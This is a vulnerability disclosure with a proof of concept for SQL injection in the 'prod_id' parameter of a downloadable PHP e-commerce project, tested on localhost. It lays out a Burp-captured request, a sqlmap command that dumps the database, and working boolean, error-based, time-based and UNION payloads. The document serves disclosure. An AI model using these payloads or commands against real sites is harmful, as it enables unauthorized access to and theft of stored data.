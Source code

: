 # E-Commerce Website - SQL Injection 2
+ **Exploit Title:** E-Commerce Website - SQL Injection 2
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
E-Commerce Website 1.0 allows SQL Injection via parameter 'prod_id' in "http://localhost/Electricks/Electricks-shop/pages/product_details.php?prod_id=11".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the ELECTRONIC PRODUCTS: "http://localhost/Electricks/Electricks-shop/pages/products.php"
+ Option and View.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /Electricks/Electricks-shop/pages/product_details.php?prod_id=11 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=ph6ngt1khn1l20eg8hivgv8uc6
Referer: http://localhost/Electricks/Electricks-shop/index.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'prod_id' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p prod_id --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: prod_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: prod_id=11' AND 7251=7251-- mvqJ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: prod_id=11' AND (SELECT 4336 FROM(SELECT COUNT(*),CONCAT(0x716a787671,(SELECT (ELT(4336=4336,1))),0x71627a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FBBS

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: prod_id=11' AND (SELECT 3355 FROM (SELECT(SLEEP(5)))DonO)-- wPLs

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: prod_id=11' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a787671,0x4477555048486f6e487148784e57436e6b546e534d654447714f6256496243505158646c65797252,0x71627a7a71),NULL,NULL,NULL,NULL,NULL-- -
---
[20:05:42] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:05:42] [INFO] fetching current database
current database: 'electricks'
```

+ current database: `electricks`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/ef46e98d-0521-488a-aef2-0ae24dadba49)
